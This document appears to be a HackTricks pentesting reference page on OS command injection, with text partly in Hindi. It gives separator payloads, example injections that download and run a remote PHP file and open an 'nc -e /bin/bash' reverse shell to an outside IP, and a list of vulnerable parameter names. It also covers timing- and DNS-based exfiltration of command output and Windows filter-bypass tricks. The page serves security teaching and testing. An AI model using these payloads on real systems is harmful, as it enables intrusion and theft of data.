 # Command Injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Get a hacker's perspective on your web apps, network, and cloud

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## What is command Injection?

एक **command injection** हमलावर को एक एप्लिकेशन को होस्ट करने वाले सर्वर पर मनमाने ऑपरेटिंग सिस्टम कमांड्स को निष्पादित करने की अनुमति देता है। इसके परिणामस्वरूप, एप्लिकेशन और इसके सभी डेटा पूरी तरह से समझौता किए जा सकते हैं। इन कमांड्स का निष्पादन आमतौर पर हमलावर को एप्लिकेशन के वातावरण और अंतर्निहित प्रणाली पर अनधिकृत पहुंच या नियंत्रण प्राप्त करने की अनुमति देता है।

### Context

**जहां आपका इनपुट इंजेक्ट किया जा रहा है** उसके आधार पर आपको **उद्धृत संदर्भ को समाप्त करने** की आवश्यकता हो सकती है ( `"` या `'` का उपयोग करके) कमांड्स से पहले।

## Command Injection/Execution
```bash
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```
### **Limition** Bypasses

यदि आप **linux मशीन के अंदर मनमाने कमांड्स को निष्पादित करने** की कोशिश कर रहे हैं, तो आप इस **Bypasses** के बारे में पढ़ने में रुचि रखेंगे:

{% content-ref url="../linux-hardening/bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../linux-hardening/bypass-bash-restrictions/)
{% endcontent-ref %}

### **Examples**
```
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80
vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```
### Parameters

यहाँ शीर्ष 25 पैरामीटर हैं जो कोड इंजेक्शन और समान RCE कमजोरियों के लिए संवेदनशील हो सकते हैं (से [link](https://twitter.com/trbughunters/status/1283133356922884096)):
```
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```
### Time based data exfiltration

डेटा निकालना: चर द्वारा चर
```
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```
### DNS आधारित डेटा एक्सफिल्ट्रेशन

`https://github.com/HoLyVieR/dnsbin` से उपकरण के आधार पर, जो dnsbin.zhack.ca पर भी होस्ट किया गया है
```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```
ऑनलाइन उपकरण DNS आधारित डेटा एक्सफिल्ट्रेशन की जांच के लिए:

* dnsbin.zhack.ca
* pingb.in

### फ़िल्टरिंग बाईपास

#### विंडोज
```
powershell C:**2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:**32\c*?c.e?e # calc
```
#### Linux

{% content-ref url="../linux-hardening/bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../linux-hardening/bypass-bash-restrictions/)
{% endcontent-ref %}

## Brute-Force Detection List

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/command_injection.txt" %}

## References

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
* [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करें।**

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### अपने वेब ऐप्स, नेटवर्क और क्लाउड पर एक हैकर का दृष्टिकोण प्राप्त करें

**महत्वपूर्ण, शोषण योग्य कमजोरियों को खोजें और रिपोर्ट करें जो वास्तविक व्यापार प्रभाव डालती हैं।** हमारे 20+ कस्टम टूल का उपयोग करके हमले की सतह को मैप करें, सुरक्षा मुद्दों को खोजें जो आपको विशेषाधिकार बढ़ाने की अनुमति देते हैं, और आवश्यक सबूत इकट्ठा करने के लिए स्वचालित शोषण का उपयोग करें, जिससे आपका कठिन काम प्रभावशाली रिपोर्टों में बदल जाए।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}
